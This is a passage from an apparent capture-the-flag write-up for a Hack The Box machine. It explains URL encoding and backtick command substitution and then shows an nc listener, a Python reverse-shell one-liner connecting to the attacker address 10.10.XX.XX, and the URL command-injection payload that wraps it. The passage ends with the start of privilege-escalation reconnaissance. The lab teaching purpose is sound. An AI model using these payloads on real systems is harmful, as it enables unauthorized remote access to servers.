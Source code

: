 The %20 character is a url encoded character. URL encoding converts characters into a format that can be transmitted over the Internet. URLs can only be sent over the Internet using the ASCII character-set. Since URLs often contain characters outside the ASCII set, the URL has to be converted into a valid ASCII format. Any url encoded character can work in this case. (%20, %21, etc.)

The backticks that wrap the bash command, are not a quotation sign. They have a very special meaning. Everything you type between backticks is evaluated (executed) by the shell before the main command that encapsulates the command inside the backticks.

So, without the backticks, the bash command can not be executed. Now, since we can execute bash commands in the remote servers, things get easier. We will use a classic reverse shell via command injection. You can download, as a browser extension, a tool called "Hack-Tools". It contains useful commands used in hacking.

A reverse shell, also known as a remote shell or “connect-back shell,” takes advantage of the target system’s vulnerabilities to initiate a shell session and then access the victim’s computer. The goal is to connect to a remote computer and redirect the input and output connections of the target system’s shell so the attacker can access it remotely.

First, we should choose an unused port, to listen to. Our pc will be the listener and the htb server will connect to the port that we are listening to. After this, the input and output connections will be redirected, and we will have remote access to the htb server.

- Now, open your terminal and listen to an unused port.(e.g 4444)

```
nc -lnvp 4444
```

- We can use python to establish the reverse shell. 

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.XX.XX",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

- So, our last payload will be:

```
http://%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.XX.XX",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```

Congrats! You connected to the remote server. If we execute "whoami", we can see that we are a user named "ruby". We can go to the home directory and see that there are 2 users, "henry" and "ruby". The user flag is in the henry folder, but since we are connected as ruby, we do not have permission to read the file. We must find a way to connect as the "henry" user.

The name ruby, and listing the contents of the server, will indicate that the "RubyGems" package manager is installed. RubyGems is a package manager for the Ruby programming language that provides a standard format for distributing Ruby programs and libraries (in a self-contained format called a "gem"), a tool designed to easily manage the installation of gems, and a server for distributing them. 

We can verify that, by executing "gem -v" to view the version of RubyGems.

Usually, you can use Bundler for gem dependency management but also for writing our own gems. Bundler provides a consistent environment for Ruby projects by tracking and installing the exact gems and versions that are needed.
